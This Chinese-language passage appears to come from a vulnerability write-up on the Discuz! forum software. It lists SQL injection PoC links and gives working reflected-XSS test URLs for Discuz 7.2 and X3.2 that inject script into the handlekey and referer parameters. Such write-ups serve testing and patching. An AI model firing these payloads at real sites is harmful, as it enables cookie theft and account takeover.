 id参数存在SQL注入。
参考链接：http://www.hack6.com/wzle/gf/20140208/39554.html
#### 演示15：Discuz! 7.x csrf+存储xss(富文本)脱裤(2处)和后台sql(root getshell)(附带exploit)
在管理后台-工具-数据-调用-自定义模块存在SQL注入，详情看图即可明白



参考链接：https://www.seebug.org/vuldb/ssvid-93737
漏洞POC：
Discuz! 4.x SQL injection  POC
https://www.exploit-db.com/exploits/2859/
https://www.seebug.org/vuldb/ssvid-5482
Discuz! 5.0.0 RC1 SQL injection PoC
http://blog.sina.com.cn/s/blog_56fb0f050100055g.html
Discuz! 5.0.0 GBK SQL Injection / Admin Credentials Disclosure Exploit
https://www.seebug.org/vuldb/ssvid-16732
Discuz! 5 SQL injection Exploit
https://www.seebug.org/vuldb/ssvid-5263
## 反射型XSS漏洞
### 漏洞描述：跨站脚本攻击漏洞，恶意攻击者往web页面插入恶意脚本代码，而程序对于用户输入内容未过滤，当用户浏览该页之时，嵌入其中web里面的脚本代码会被执行，从而达到恶意攻击用户的特殊目的。窃取cookie、放蠕虫、网站钓鱼……。涉及URL如下：
#### /include/global.func.php—>演示1
http://ip/admincp.php?infloat=yes&handlekey=123
http://ip/logging.php?infloat=yes&handlekey=123
http://ip/api/uchome.php?infloat=yes&handlekey=123
#### logging.php—>演示2
http://ip/logging.php?action=logout&formhash=b1abb3e2&referer=
#### source/function/function_core.php—>演示3
http://ip/member.php?mod=logging&action=login&referer=javascript://www.discuz.net/
http://ip/connect.php?receive=yes&mod=login&op=callback&referer=javascript://www.discuz.net/
### 测试步骤与截图：
各漏洞演示如下，共有3个功能或插件存在反射型XSS
#### 演示1：Discuz 7.2 反射型xss漏洞1
访问以下链接即可触发XSS：
http://ip/admincp.php?infloat=yes&handlekey=123);alert(/xss/);//  http://ip/logging.php?infloat=yes&handlekey=123);alert(/xss/);//  http://ip/api/uchome.php?infloat=yes&handlekey=123);alert(/xss/);//
参考链接：http://www.bubuko.com/infodetail-2094064.html
#### 演示2：Discuz 7.2 反射型xss漏洞2
访问如下链接即可触发
http://ip/logging.php?action=logout&formhash=b1abb3e2&referer=%27-alert%28document.domain%29-

参考链接：https://www.seebug.org/vuldb/ssvid-89252
#### 演示3：Disucz X3.2 多处反射型XSS漏洞
http://ip/member.php?mod=logging&action=login&referer=javascript://www.discuz.net/
http://ip/connect.php?receive=yes&mod=login&op=callback&referer=javascript://www.discuz.net/
以上链接的referer参数存在XSS漏洞，访问如上链接可查看HTML
